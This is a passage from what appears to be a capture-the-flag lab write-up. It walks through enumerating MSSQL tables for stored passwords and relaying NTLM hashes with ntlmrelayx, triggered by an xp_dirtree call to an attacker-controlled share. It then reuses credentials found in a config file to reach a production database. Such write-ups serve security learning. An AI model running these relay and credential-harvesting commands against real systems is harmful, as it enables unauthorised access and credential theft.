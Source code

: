 ```SQL
SQL (web_staging  dbo@staging)> select * FROM users;                     
id   username   password               
--   --------   -------------          
 1   b'dev01'   b'<..Redacted..>'          
     
 2   b'dev02'   b'<..Redacted..>'
```

As the SMB signing is off I can relay hash to a different machine. For that I have opened **ntlmrelayx** with interactive mode and on MSSQL I used XP_DIRTREE to relay the hash. 
`ntlmrelayx.py --no-http-server -smb2support -tf scope.txt -i`
`exec xp_dirtree '\\10.8.2.110\share'`

![](https://photos.squarezero.dev/file/abir-images/Reflection/5.png)
![](https://photos.squarezero.dev/file/abir-images/Reflection/6.png)

I used Netcat to interact with interactive mode and after enumeration, I found another config file containing credentials for **web_prod**.

![](https://photos.squarezero.dev/file/abir-images/Reflection/7.png)

```bash
➜  reflection cat prod_db.conf                                  
user=web_prod                                                   
password=<..Redacted..> 
```

Using the **web_prod** credential I can now log into the WS01 MSSQL server and after some enumeration, I found more credentials. 

![](https://photos.squarezero.dev/file/abir-images/Reflection/8.png)

```SQL
SQL (web_prod  guest@master)> SELECT name FROM master.dbo.sysdatabases                                                                                                 
name                                                            
------                                                          
master                 
tempdb                 
model                 
msdb                                                     
prod                                                            
                                                                
SQL (web_prod  guest@master)> use prod                          
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: prod     
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'prod'.                                                                                                 

SQL (web_prod  dbo@prod)> SELECT * FROM prod.INFORMATION_SCHEMA.TABLES                                                                                                 
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE          
-------------   ------------   ----------   ----------          
prod            dbo            users        b'BASE TABLE'       
                                                                
SQL (web_prod  dbo@prod)> select * FROM users;                  
id   name              password                                 
--   ---------------   -----------------                        
 1   b'abbie.smith'    b'<..Redacted..>'                        
                                                                
 2   b'dorothy.rose'   b'<..Redacted..>'
```
